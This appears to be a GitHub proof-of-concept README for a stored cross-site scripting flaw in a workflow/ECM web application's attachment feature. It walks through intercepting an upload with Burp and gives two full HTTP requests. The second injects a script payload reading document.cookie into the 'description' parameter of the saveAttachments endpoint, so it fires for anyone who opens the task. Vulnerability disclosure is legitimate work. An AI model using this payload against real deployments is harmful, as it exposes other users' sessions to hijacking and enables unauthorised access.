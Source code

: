 # xss-s-3

Poc

To run this XSS Stored, simply access the task's frontend and the XSS will be triggered automatically.

To trigger, first need upload any file in attachment at task, intercept with Burp and when we have `/ecm/api/rest/ecm/workflowView/saveAttachments` endpoint at request flow, we modify `description` parameter (vulnerable) and send with your XSS Payload.

So, first: intercept the requests with Burp and upload a file in attachment at task. Here we just will create a simple file, don't need change anything.
```
POST /ecm/upload HTTP/2
Host: host.com
Cookie: JSESSIONID=session; JSESSIONIDSSO=sessionSSO
Accept: application/json, text/javascript, */*; q=0.01
Accept-Encoding: gzip, deflate, br
X-Requested-With: XMLHttpRequest
Content-Type: multipart/form-data; boundary=----geckoformboundary60088f67ae43ae7924cc4762b55db98b
Content-Length: 4060


------geckoformboundary60088f67ae43ae7924cc4762b55db98b
Content-Disposition: form-data; name="userId"

USER_ID_HERE
------geckoformboundary60088f67ae43ae7924cc4762b55db98b
Content-Disposition: form-data; name="files[]"; filename="teste123.jpg"
Content-Type: image/jpeg

IMAGE_CONTENT
------geckoformboundary60088f67ae43ae7924cc4762b55db98b--
```

Click to next request and the we got a POST to `/ecm/api/rest/ecm/workflowView/saveAttachments`. Here we need change `description` parameter with XSS payload:
```
POST /ecm/api/rest/ecm/workflowView/saveAttachments HTTP/2
Host: host.com
Cookie: JSESSIONID=session; JSESSIONIDSSO=sessionSSO
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://host.com/pageworkflowview?app_ecm_workflowview_processInstanceId=ID_PROCESS&app_ecm_workflowview_currentMovto=2&app_ecm_workflowview_taskUserId=ID_USER&app_ecm_workflowview_managerMode=false
Content-Type: application/json; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 617
Origin: https://host.com
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers

{"processId":"wkToten","version":8,"managerMode":false,"taskUserId":"USER_ID","processInstanceId":PROCESS_ID,"isDigitalSigned":false,"selectedState":5,"attachments":[{"id":2,"fullPath":"BPM","droppedZipZone":false,"name":"testingt.png","newAttach":true,"description":"testing.jpg\"></a><script>alert(document.cookie)</script>","documentId":0,"attachments":[{"attach":false,"principal":true,"fileName":"teste123.jpg"}],"hasOwnSubMenu":true,"enablePublish":false,"enableEdit":false,"enableEditContent":false,"enableDownload":true,"iconClass":"fluigicon-file-upload","iconUrl":false,"colleagueId":"ID_COLLEAGUE"}],"currentMovto":2}
```

Now, any people that access the frontend from this task will be trigger XSS stored.
